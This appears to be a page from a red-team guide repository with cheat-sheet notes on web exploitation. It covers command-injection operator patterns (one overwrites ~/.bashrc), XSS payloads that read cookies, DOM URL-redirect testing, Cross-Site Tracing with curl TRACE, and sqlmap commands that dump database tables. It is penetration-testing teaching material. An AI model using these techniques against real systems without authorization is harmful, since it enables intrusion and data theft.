 # Red Team

## Information Gathering

**>> [Z_Networks/Web Application](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Z_Networks/Web%20Application.md)**

**>> [1_Reconnaissance/Active/Web Application](https://github.com/p-arrow/RedTeam-Guide/blob/main/1_Reconnaissance/Active/Web%20Application.md)**


<br />

## Exploitation

### 1) Command Injection

#### Command Injection into available input masks
- Sequential: `/bin/exploit ; malicious_code`
- Pipeline: `/bin/exploit | malicious_code` (use output of exploit as input for malicious_code)
- Substitution: `/bin/exploit 'malicious_code'` (output of malicious_code as arg to exploit)
- Substitution: `/bin/exploit $(malicious_code)` (output of malicious_code as arg to exploit)
- Redirection: `/bin/exploit > ~/.bashrc` (overwrite bashrc)

### 2) XSS
- [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
- [3_Exploitation/XSS.md](https://github.com/p-arrow/Red-Blue-Guide/blob/main/3_Exploitation/XSS.md)

#### Quick & Dirty:
     - `<script>alert("XSS LEAK")</script>`
     - `<script>alert(document.cookie)</script>`

#### DOM Based URL Redirection
- Look for `https://example.com/#dashboard`
- The value after `#` is accessible by Javascript
- Use `window.location.hash`
- If URL Redirection is in place you can test if a redirection to an external site is possible
- Enter `https://example.com/#www.externalsite.com`
- Activate the redirection via Javascript
- `window.location = window.location.hash.substr(1)`: use substr() to remove the '#'
- Following mitigations exist:
   - A) URL Whitelisting: `https://example.com/redirect?externalPage=1` or `https://example.com/redirect?page=dashboard`
   - B) REGEX

#### Web Server with TRACE/TRACK enabled (XST)
- Details: [https://owasp.org/Cross_Site_Tracing](https://owasp.org/www-community/attacks/Cross_Site_Tracing)
- "XST could be used as a method to steal user’s cookies via XSS"
- "This is possible even if the cookie has the “HttpOnly” flag set or exposes the user’s Authorization header"
- `curl -X TRACE www.example.org`
- `curl -X TRACE -H "Cookie: name=value" www.example.org`

### 3) SQLi

#### sqlmap
```
--> HTTP POST request: (after interception) save request to file (Burpsuite)
--> sqlmap -r request -p password (-p = analyze Parameter from POST method)
--> sqlmap -r request -D [database] --tables
--> sqlmap -r request -D [database] -T [table] --dump
--> -p "Parameter" -u "url" --tables
--> -p "Parameter" -D [DBMS] -T [Table] --dump -u "url"
```
